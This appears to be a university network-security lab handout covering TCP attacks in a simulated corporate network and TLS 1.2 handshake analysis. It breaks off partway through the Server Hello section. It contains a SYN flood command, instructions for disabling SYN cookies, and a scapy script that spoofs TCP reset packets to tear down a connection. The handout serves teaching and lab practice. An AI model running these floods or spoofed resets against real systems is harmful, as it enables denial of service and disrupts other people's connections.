

# Week 3 Applied Class Material

> The exercises are designed for students to finish in an individual capacity. The exercises are not designed to be completed in tutorial sessions but rather to give you some tasks and a starting point to continue and complete on your own.


--- 
## 1. TCP Attacks
In this task we will perform two types of transport layer attacks; **TCP SYN Flood attack** and **TCP Reset attack**. Before we begin, configure your SecureCorp topology as below. You will need `Internal-Client-2`, `Internal-Attacker-2` and `Internal-Server` nodes. `Internal-Attacker-2` is a new node you need to add to the corp LAN. If you don’t have the other nodes in your network, you will need to add them as well. To make it easy, we have configured all nodes with static IPs.

<p align="center">
    
</p>
<p align="center">
    Fig1. Network Topology
</p>

> Note: When you add a new node, make sure to configure the below directories as persistent.
>
```
/home
/var
/opt
/root
/etc
/usr
```

- Open SecureCorp network configuration in GNS3 and start all nodes. Run the below 3 commands on `Internal-Server` node:
```bash
apt update ; apt install net-tools -y
apt install perl-base=5.38.2-3.2build2 -y ; apt install apache2 -y
service apache2 start
```
- Run the below commands on `Internal-Attacker-2` node:
```bash
apt update ; apt install python3-scapy -y
```
- Run the below commands on `Internal-Client-2` node:
```bash
apt update; apt install lynx
```

### SYN Flood Attacks
SYN flood is a form of DoS attack in which attackers send many SYN requests to a victim’s TCP port, but the attackers have no intention to finish the 3-way handshake procedure. Attackers either use spoofed IP address or do not continue the procedure. Through this attack, attackers can flood the victim’s queue that is used for half-opened connections, i.e. the connections that has finished SYN, SYN-ACK, but has not yet got a final ACK back. When this queue is full, the victim cannot take any more connection.


<p align="center">
    
</p>
<p align="center">
    Fig2. SYN-ACK
</p>

The size of the queue has a system-wide setting. In Linux, we can check the system queue size setting using the following command (you can try this command in `Internal-Server`): 
```bash
sysctl -q net.ipv4.tcp_max_syn_backlog
```
We can use command `netstat -antup` to check the usage of the queue, i.e., the number of half opened connection associated with a listening port. The state for such connections is `SYN-RECV`. If the 3-way handshake is finished, the state of the connections will be **ESTABLISHED**. We will use `syn.py` (available on Moodle) to attack `Internal-Server` with `SYN FLOOD`. First, run the following on the `Internal-Server` terminal:
```bash
netstat -antup
```
Run the following command on `Internal-Attacker-2` terminal for SYN flooding (Replace the IP with your Internal-Server’s IP address):
```bash
python3 syn.py --ip 10.10.10.80 --port 80
```

Try telnet from `Internal-Client-2` to `Internal-Server`, is it successful (Replace the IP with your `Internal-Server`’s IP addresss)?
```bash
telnet 10.10.10.80 80
```
The Linux kernel has a built-in `SYN` cookies option which protects the system from `SYN` flooding attack. You need to first disable `SYN` cookie. You can use the sysctl command to turn on/off the `SYN` cookie mechanism. To display the `SYN` cookie flag:
```bash
sysctl -a | grep cookie
```
To turn off SYN cookie:
```bash
sysctl -w net.ipv4.tcp_syncookies=0
```
To turn on SYN cookie:
```bash
sysctl -w net.ipv4.tcp_syncookies=1
```
Try attacks with countermeasure with `ON` and `OFF` and try connecting telnet to server. You should be able to telnet (while attacker is `SYN` flooding) to the srever from client when the `syncookie=1`.

> Then, you can try to analyse packets in **Wireshark**. Be careful with **wireshark**.

### TCP RST Attacks

The objective of this task is to launch a TCP RST attack to break an existing `telnet` connection between `Internal-Client-2` and `Internal-Server`. Start Wireshark on the link between `Internal-Server` and `Corp-Switch`. Connect `telnet` from `Internal-Client-2` to `Internal-Server`. Execute the following on `Internal-Client-2` (Replace the IP with your `Internal-Server`’s IP address).
```bash
telnet 10.10.10.80 80
```

In Wireshark, click on the last packet sent to Internal-Server, now right click on “**Transmission Control Protocol**” and uncheck the “Relative Sequence Numbers”:
<p align="center">
    
</p>
<p align="center">
    Fig3. Disabling Relative Sequence Numbers
</p>

Note the “**Next Sequence number**” in the “**Transmission Control Protocol**” panel (it can be seen in above screenshot). Attacker will use this sequence number for sending the next packet. 

We will use `scapy`, a python-based packet generator, for spoofing the packets. The following code will send a `RST` packet, run this from `Internal-Attacker-2`’s terminal. (You need to enter values of ”CLIENT’s IP”, ”SERVER’s IP”, ”sport”, and sequence number, these values can be obtained from Wireshark). 

Here the assumption is that the attacker has traffic sniffing access to `Corp-Switch`, or attacker is able to perform ARP poisoning attack and capture the TCP packets. Use the below code to create `reset.py`.

```py
!/usr/bin/python3
import sys
from scapy.all import *
print("sending reset packet...")

IPLayer = IP (src="CLIENT’s IP", dst = "SERVER’s IP")
TCPLayer = TCP (sport=37766, dport=80, flags="R", seq=506005543)

pkt=IPLayer/TCPLayer

ls(pkt)

send(pkt,verbose=0)
```

<p align="center">
    
</p>
<p align="center">
    Fig4. Running reset.py on Internal-Attacker-2 terminal
</p>

If successful, it will reset the connection between the `Internal-Client-2` and `Internal-Server`.

<p align="center">
    
</p>
<p align="center">
    Fig5. Internal-Client-2 lost the connection
</p>

---

## 2 Transport Layer Security

The latest version of the Transport Layer Security (TLS) protocol is TLS 1.3, standardised in August 2018 under RFC 8446. Both TLS 1.2 and TLS 1.3 are currently considered secure for general communications when configured with strong cipher suites. While TLS 1.3 offers improved performance, stronger default security, and reduced handshake complexity, TLS 1.2 remains the most widely deployed version on the internet today due to its broad compatibility with existing systems. 

In this lab, we will use OpenSSL to carry out all tasks. OpenSSL is an open-source software library that provides the tools and libraries needed to implement SSL (Secure Sockets Layer) and TLS (Transport Layer Security) protocols. It also includes a command-line utility (openssl) for testing TLS connections, managing certificates, and performing various cryptographic operations.

---
### 2.1 TLS v1.2
A TLS handshake occurs whenever a user accesses a website over HTTPS. This process involves multiple steps in which the client and server exchange the information needed to complete the handshake and establish secure communication. In this task, we will capture a TLS 1.2 handshake using Wireshark and analyze the details of the connection establishment.

Open SecureCorp network configuration in GNS3 and start all nodes. You can use one of the nodes you added in the previous labs to perform the lab tasks. (ex: Internal-Server, CA, Internal-Client-2)

#### Initiate a TLS 1.2 Handshake with OpenSSL
Start packet capture on the link between the node you are using to run the commands and the network Switch it is connected to. Then run the below command on your chosen node to initiate a TLS handshake with Monash web server over TLS 1.2:
```bash
openssl s_client -connect monash.edu:443 -tls1_2
```

Wireshark should have captured the TLS 1.2 handshake traffic. You should see the final packet of TLS handshake in Wireshark which is the ChangeCipherSpec message. Now that the TLS handshake is established, request the webpage over TLS from Monash webserver using the below command.

> **Note**: You must run the command below within 10 seconds of establishing the handshake; otherwise, the handshake will expire. If it does expire, run the previous command again to re-establish it.

```bash
GET / HTTP/1.1
Host: monash.edu
```
After running the above command, you should see Application Data packets being transmitted over TLS in Wireshark.

---
#### Client Hello
Open Wireshark and find ”Client Hello” packet. TLS wraps all traffic in “records” of different types. We see that the first byte out of our browser is the hex byte `0x16 = 22` which means that this is a “handshake” record:

<p align="center">
    
</p>
<p align="center">
    Fig6. Client Hello
</p>

The next two bytes are `0x0303` which indicate that this is a version 3.3 record which shows that TLS 1.2 is essentially SSL 3.3. The handshake record is broken out into several messages. The first is our “Client Hello” message (`0x01`). There are a few important things here:


##### 1. Random
There are four bytes representing the current Coordinated Universal Time (UTC) in the Unix epoch format, which is the number of seconds since January 1, 1970. In this case, `0x70153b7e`.
It’s followed by 28 random bytes. This will be used later on.
<p align="center">
    
</p>
<p align="center">
    Fig7. Random
</p>

##### 2. Cipher Suites
This is a list of all of the encryption algorithms that the browser is willing to support. Its top pick is a very strong choice of `TLS AES 256 GCM SHA384` followed by 28 others that it’s willing to accept.

<p align="center">
    
</p>
<p align="center">
    Fig8. Cipher Suites
</p>

##### 3. server name extension
This is a way to tell monash.edu that our browser is trying to reach [https://www.monash.edu](https://www.monash.edu). This is really convenient because our TLS handshake occurs long before any HTTP traffic. HTTP has a “Host” header which allows hosting companies to host hundreds of websites onto a single IP address. SSL has traditionally required a different IP for each site, but this extension allows the server to respond with the appropriate certificate that the browser is looking for.

<p align="center">
    
</p>
<p align="center">
    Fig9. server name extension
</p>


##### 4. Session ID

Here it’s `empty/null`. If we had previously connected to Monash a few seconds ago, we could potentially resume a session and avoid a full handshake.

<p align="center">
    
</p>
<p align="center">
    Fig10. Session ID
</p>


---
#### Server Hello

Monash replies with a handshake record. The record has version bytes of `0x0303` meaning that Monash agreed to our request to use TLS 1.2. This record has three sub-messages with some interesting data:

##### 1. Server Hello Message (2)